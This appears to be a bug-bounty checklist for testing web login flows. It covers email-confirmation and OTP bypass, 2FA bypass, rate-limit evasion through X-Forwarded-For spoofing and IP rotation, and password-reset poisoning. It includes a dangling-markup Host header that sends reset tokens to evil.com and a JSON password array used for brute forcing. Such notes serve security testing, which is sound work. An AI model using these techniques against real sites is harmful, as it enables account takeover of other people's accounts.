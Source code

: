 # Authentication Testing

## Login Page:
  - Try

## Email confirmation bypass:

  - Try response manupulate to cofirm email
  - while confirm email try this: intecept request to burp and change your mail to another person mail if you cloud get success. 
  
## OTP Relate Testing:

  - If you can manupulate response code to 200 and 302.
  - If you brute force login OTP
    - If WAF try Ip rote extension
    - Read some article and reports about rate limit bypass
  - While you confirming OTP try to change you email to victim email: if you cloud login as another user.

## Password Reset functionality:
  - Try to add Host header in reset password request.
  - While reseting password intercept request to burp and see if you cloud add ```<a href>``` tag and see in email if there anything changes. 

## Authentication:
	
  - Bypass Rate Limit with X-Forwarded-For: to pwn authentication
  - Host header injeciton in forgot password page
	- Test Remember me functionality
  - Test password reset and/or recovery
  - 2FA Bypass
    - Access the content directly (site.com/profile)
    - Login using Oauth gmail or FB to bypass 2FA
    - Reset Password and login inoto the account to bypass 2FA 
    - Use old toke or change the response
  - Goto the reset password page and add two emails while sending the reset password link
		[You can recive two password reset link]
  - Web Cache deception [site.com/profile/min.js]
  - PHP protection can be bypassed using [] such as password=1234 ----> password[]= (CSRF token too)
  - While resetting password change the host header to your server (VPS) = secret link to your VPS
  - Bypass rate limit protection: You can use IP-Rotate burp extension or you can change system IP per request.
	
  - Password reset poisoning via dangling markup
	```Host: victim.com:'<a href="//evil.com/?  ```

  - Add X-Forwarded-For: 127.0.0.1 or 1-1000 to bypass the rate limit protection.

  - Login into the valid account and then into valid one, repeat this process to fool the sever to bypass the rate limit protection (observe that your IP is blocked        if your submit 3 incorrect logins in a row. However, you can reset the counter by logging in to your own account before the limit is reached)

  - replace the single string value of the password with an array of string containing all of the candidate passwords, for Example:
	
```json
	"username": "test",
	"password": [
		"1234",
		"password",
		"qwerty"
		....
	]
```

  - If you enter the wrong code twice, you will be logged out again bypass it using macros (You need to use burp's session handlling features to log back in
    automatically before sending each request.)
	
